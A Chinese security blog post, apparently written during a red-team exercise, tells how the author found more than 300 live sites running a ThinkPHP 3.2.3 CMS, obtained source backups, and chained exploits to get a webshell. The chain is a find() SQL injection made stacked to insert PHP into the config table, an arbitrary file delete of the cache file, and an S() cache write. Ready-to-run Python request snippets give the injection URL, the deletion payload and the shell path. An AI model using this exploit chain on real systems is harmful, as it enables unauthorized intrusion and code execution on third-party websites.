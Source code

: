 前言
==

地市级hvv，某下级单位研究院官网使用了这套cms，提取关键字在fofa查询，发现使用该程序的站点有300+，导出目标，使用目录扫描跑一下备份文件，结果不出所料，这么多站点总是有软柿子的拿到源码开始审计。

审计过程
====

源码是thinkphp3.2.3的，比较熟悉，最终通过sql注入插入数据+缓存漏洞成功getsell

Sql注入
-----

这个版本的thinkphp是有很多注入的，find(),select(),delete()都有可能造成注入，先来搜搜find参数，发现一段代码如下：

```php
function getPosition($catid){
    $cate = M('category')->find($catid);
    $pos_id = array(['id'=>$catid,'name'=>$cate['name']]);
```

很明显，存在find的sql注入，全局搜索getPosition函数看看在哪里被调用

```php
 public function position() {
        $pos = getPosition(I('get.catid'));
        $this->pos = $pos;
        $this->display('Public:position');
    }
```

position函数调用了getPosition方法，并且传入的catid也是直接通过I获取的，这里显而易见存在find注入，可直接获取数据。

```php
/index.php?s=/Cn/public/position&catid[where]=11111
```

但是获取的后台密码无法解密，后续也是通过审计找到好几个注入，但都无法进到后台。  
这个版本还有反序列化，但反序列化后的效果也是实现sql注入，都比较鸡肋。

缓存漏洞
----

thinkhp3.2.3是存在S缓存漏洞的

```php
    public function test02(){
        S('name',"\nphpinfo();//");
    }
```

当S的第二个参数可控时，便可以向缓存文件写入内容来getshell，全局搜索S，发现很多地方调用了S，但是挨个看下来之后，第二个参数都无法直接控制。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-1558dec669dbb9476161f7ad2550bcdecf8598e1.png)

在这里磕了一点时间，突然想到ThinkPHP 3.2.3默认使用的是PDO驱动来实现的数据库类，而PDO默认是支持多语句查询的，所以前面的注入是可以进行堆叠注入的。  
也就是说我们可以利用堆叠注入向数据库中插入语句，然后去找S的第二个参数是从数据库中取值的地方就可以利用了，有了思路很快就定位到一个地方：

```php
function setConfig($name = 'ALL_CONFIG', $siteid = array()) {
    $config = M('Config');
    $where['status'] = 1;
    if (!empty($siteid)) {
        $where['siteid'] = array('in', $siteid);
    }
    $data = $config->field('id,name,title,value')->where($where)->order('sort ASC')->select();
//设置缓存数组
    $cache_data = array();
    if (!empty($data)) {
        foreach ($data as $key => $value) {
            $cache_data[$value['name']] = $value['value'];
        }
    }

//先删除缓存
    $previous_cache = S($name);
    if (!empty($previous_cache)) {
        S($name, null);
    }
//设置缓存
    S($name, $cache_data);
}
```

setConfig函数通过`S($name, $cache_data)`写入缓存，而`$cache_data`又是从`M('Config')`中查询数据获取的，我们只需要控制sql注入，向config中插入一条数据即可利用缓存漏洞getshell。  
接着往上追，看一下哪里调用的setConfig。  
在/Apps/Cn/Controller/CommonController.class.php中看到

```php
    public function _initialize() {
        //验证是否安装
        if (!file_exists('./data/system_install.lock')) {
            $this->redirect("Install/Index/index");
        }

       ...

        //获取配置

        $system_config = S('ALL_CONFIG' . C('SITEID'));
        //空的情况下生成缓存
        if (empty($system_config)) {
            //生成缓存
            setConfig('ALL_CONFIG' . C('SITEID'), array(0, C('SITEID')));
            $system_config = S('ALL_CONFIG' . C('SITEID'));
        }
```

当`$system_config`为空时，调用`setConfig`。

在S函数中

```php
function S($name,$value='',$options=null) {

    static $cache   =   '';
    if(is_array($options)){
        // 缓存操作的同时初始化
        $type       =   isset($options['type'])?$options['type']:'';
        $cache      =   Think\Cache::getInstance($type,$options);
    }elseif(is_array($name)) { // 缓存初始化
        $type       =   isset($name['type'])?$name['type']:'';
        $cache      =   Think\Cache::getInstance($type,$name);
        return $cache;
    }elseif(empty($cache)) { // 自动初始化
        $cache      =   Think\Cache::getInstance();
    }

    if(''=== $value){ // 获取缓存
        return $cache->get($name);
    }elseif(is_null($value)) { // 删除缓存
        return $cache->rm($name);
    }else { // 缓存数据
        if(is_array($options)) {
            $expire     =   isset($options['expire'])?$options['expire']:NULL;
        }else{
            $expire     =   is_numeric($options)?$options:NULL;
        }
        return $cache->set($name, $value, $expire);
    }
    exit;
}
```

会先进入`$cache->get($name)`判断之前是否有缓存，如果没有的话，则调用setConfig，生成的缓存文件名为`ALL_CONFIG1`的md5，路径为`Apps\Runtime\Temp\94b4e91cbccc674ec30f286e193c1703.php`  
如果缓存已经存在的话，则直接读取缓存，所以如果想进入setConfig的话，还需要想办法把已有的缓存文件给删掉。

任意文件删除
------

我们只需要在找到一个任意文件删除，把已有的缓存文件删除掉，就可以满足getshell的所有条件。  
然后全局搜索unlink找到如下位置：  
/xxlogin/Controller/UeditorController.class.php

```php
    public function delFile(){
        if(IS_POST){
            $filename=I("filename");
            if(!$filename){
                $this->ajaxReturn(array("status"=>0,"msg"=>"文件不存在"));
            }
            $type=I("post.type");
            $data_path=$this->data_path;
            if($type==1){
                $data_path=$this->data_path.I("post.dirname")."/";
            }
            $dir=$data_path.$filename;
            if(is_file($dir)){
                $ok=unlink($dir);
                if($ok){
                    $this->ajaxReturn(array("status"=>1,"msg"=>"删除成功"));
                }else{
                    $this->ajaxReturn(array("status"=>0,"msg"=>"删除失败"));
                }
            }else{
                $this->ajaxReturn(array("status"=>0,"msg"=>"文件不存在"));
            }
        }
    }
```

直接传入`filename`，通过

```php
$dir=$data_path.$filename;
```

拼接进`$dir`，然后执行

```php
$ok=unlink($dir);
```

至此getshell的各要素已经齐备，可以进行利用了

漏洞利用
====

- 利用sql注入向config表中写入写入数据,需要进行换行操作并且闭合后面的代码：

```php
u = "/index.php?s=/Cn/public/position&catid[where]=11111;insert+into+yongsy_config(name,value)+values('1','511111222222111111333333\r\necho+md5(11);/*')%23"
    vul_url = url + u
header = {
        'Content-Type': 'application/x-www-form-urlencoded'
    }

resp = requests.get(vul_url, verify=False, timeout=5)
```

- 利用任意文件删除漏洞删除缓存

```php
clearurl=url+"/index.php?s=xxlogin/ueditor/delFile"
data="filename=../../Apps/Runtime/Temp/94b4e91cbccc674ec30f286e193c1703.php"
clearr=requests.post(clearurl,headers=header,data=data,verify=False, timeout=5)
```

- 访问任意页面生成缓存（`_initialize`是全局函数）
- 访问生成的缓存即可getshell

```php
shell_url = url + "/Apps/Runtime/Temp/94b4e91cbccc674ec30f286e193c1703.php"
```

总结
==

之前碰到thinkphp3.2.3版本的都是找S函数的直接可控点，并没有想过利用注入来插入数据，主要还是比较菜，可能对于大佬们来说就是基操。